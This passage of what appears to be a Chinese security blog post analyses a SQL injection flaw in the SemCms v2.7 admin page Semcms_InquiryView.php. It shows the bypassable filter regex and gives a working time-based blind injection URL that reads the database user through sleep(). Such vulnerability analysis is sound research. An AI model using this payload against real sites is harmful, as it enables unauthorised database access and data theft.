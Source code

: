 ```


    s = getDatabase(url)
    u = getUser(url)
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoiamlreVg3KIAnt2Jaibt6reTxsCGEtIVXrI9YnfMSNkBjdpcp1yJDm3f7oCadD99WlL7jExqWGrWg/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoiamlreVg3KIAnt2Jaibt6reqx6nkCibbaaH5zle43GWqicwAs7pH421cQg5yFfqibALIqVAQyuEGzRyA/640?wx_fmt=png)

> **二. SemCms v2.7 版本存在 sql 注入漏洞**

SemCms 是一套开源外贸企业网站管理系统，主要用于外贸企业，兼容 IE、Firefox 等主流浏览器。

SemCms 使用 PHP 和 vb 语言编写，结合 apache 或 iis 运行。

Semcms_InquiryView.php 文件存在 SQL 注入漏洞。

允许攻击者利用漏洞直接操作网站数据库。  

#### **漏洞分析**

打开 semcmsPHP-V2.7\Admin\Semcms_InquiryView.php 文件，会看到 ID 参数没有经过过滤，从而导致了 sql 注入漏洞。

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoiamlreVg3KIAnt2Jaibt6relVmyMpdRpzh2fzAkOyKJGAqwD01qot8TCEaYicQx0yZL87UsoEfEj6g/640?wx_fmt=png)  
  

但是 Semcms 有全局过滤

所以要继续查看 semcmsPHP-V2.7\include\web_sql.php 文件。

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoiamlreVg3KIAnt2Jaibt6reaia6qsKp0gTFRXibSkVa7VHK0Ofvn8y8UIV7nA8MP1OTlsu53OsaZgsg/640?wx_fmt=png)  
  

这里对 get 请求进行了一些过滤.

```
return preg_match('/select|insert|=|<|update|\'|\/\*|\*|union|into|load_file|outfile/i',$sql_str);
```

这段代码过滤了一些字符，但是 “>” 符号并没有进行过滤，我们可以用”>”进行延时注入。  

#### **漏洞复现**

从官网下载源码，之后填入数据，安装即可。

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoiamlreVg3KIAnt2Jaibt6redUcBdeO7RXNcF253KOa2Saib4shseqPxBCnspAJPT50wpM58yURsAmg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoiamlreVg3KIAnt2Jaibt6reNUboSPyiaKZIU2Jeic6LFvrseBicibbp3srVibhlPmbK4YUVbwcIBaCS2tA/640?wx_fmt=png)  
  

用管理源账号登陆后台，访问 payload。

```
http://192.168.1.8/semcmsPHP-V2.7/gksg_Admin/SEMCMS_InquiryView.php?ID=1 and if(ascii(substring(user(),1,1))>113,sleep(5),1)
```

成功延时
